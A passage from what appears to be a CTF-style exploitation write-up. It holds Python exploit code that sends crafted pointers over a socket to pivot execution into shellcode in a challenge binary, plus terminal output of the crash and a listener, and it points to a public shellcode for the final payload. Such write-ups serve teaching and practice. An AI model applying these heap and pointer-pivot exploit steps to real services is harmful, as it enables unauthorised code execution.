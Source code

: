 
# send second string. this will be our 'pivot' pointer.
s.send('c 0 ' + struct.pack('<L', p_shellcode) + '\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_pivot = getID(data)

print '[+] pivot = 0x{0:08x}'.format(p_pivot)

# let's crash the binary to see if this works
s.send("c 1\n")

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_tmp = getID(data)

s.send('u ' + str(p_tmp) + ' ' + struct.pack('<L', p_pivot-0x10) + '\n')

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_vuln = getID(data)

print '[+] vulnerable pointer = 0x{0:08x}'.format(p_vuln)

# send read request to crash binary
s.send('r ' + str(p_vuln) + '\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '

# terminate connection cleanly
time.sleep(0.1)
s.send('x\n')

s.close()
{% endhighlight)

In the other terminal, I observed:

{% highlight bash)
connect to [127.0.0.1] from localhost [127.0.0.1] 53500
Trace/breakpoint trap (core dumped)
listening on [any] 5333 ...
{% endhighlight)

BOOM! Code execution on my local machine!

At this point I wasted some time to cook up a small shellcode that would re-use existing code in the binary, to verify that the stack was indeed executable in the remote binary. It was, whoop-dee-doo! Next I searched for a proper shellcode and stumbled upon [this one!](http://shell-storm.org/shellcode/files/shellcode-878.php).
